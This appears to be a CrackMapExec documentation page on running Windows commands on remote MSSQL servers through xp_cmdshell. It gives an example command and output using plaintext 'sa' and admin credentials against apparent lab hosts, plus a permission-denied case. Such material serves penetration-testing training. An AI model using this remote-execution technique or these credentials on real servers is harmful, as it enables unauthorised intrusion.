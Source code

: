 # Windows Commands

### Execute Windows Command

This option use `xp_cmdshell` to exec command on the remote host.

```
#~ cme mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)
MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------
MSSQL       10.10.10.59     1433   None             tally\sarah
```

If permission is **DENIED**:

```
MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)
MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.52     1433   None             None
```

{% hint style="info" %}
When playing with MSSQL, you can use the tool [MSDAT ](https://github.com/quentinhardy/msdat)from [quentinhardy](https://github.com/quentinhardy)
{% endhint %}
